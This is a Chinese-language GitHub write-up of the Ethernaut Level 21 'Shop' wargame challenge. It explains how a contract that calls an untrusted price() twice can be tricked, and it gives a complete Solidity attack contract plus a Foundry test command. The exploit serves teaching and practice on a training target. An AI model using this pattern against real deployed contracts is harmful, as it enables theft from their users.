


<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 21 - Shop</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 21 - Shop](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标
目的是使 price 小于 100。和 Elevator 类似，只要使两次调用 price 得到的值不一样就可以了


## 漏洞

我们先看一下 `buy()` 函数的内容:

```javascript
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```
只有`price()`大于或者等于当前的price时，才能buy成功。然而, `price()` 函数是需要我们自己去实现，这就留给了我们操作的空间，你觉得应该怎样实现它呢？

我们可以参考 [11 - Elevator](../solutions/11_Elevator.md). 我们传教一个合约，实现`Buyer`接口，实现`price()` 函数。

`price()`被调用了两次。我们只需要第一次返回一个满足条件的值，第二次再返回一个新值就可以了。所以要想通关，`!sold` 必须时false ， `price` 第一次返回值，大于100, 然后 `!sold` 变成true， `price` 第二次返回值，就可以随意设置了. 

## 解答

攻击合约实现

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract Discount {
    IShop shop;

    constructor(address _shop) {
        shop = IShop(_shop);
    }

    function price() public view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }

    function attack() public {
        shop.buy();
    }
}
```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  ShopTest  -vvvvv
```


## 要点

- Don't change the state based on external and untrusted contracts logic.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
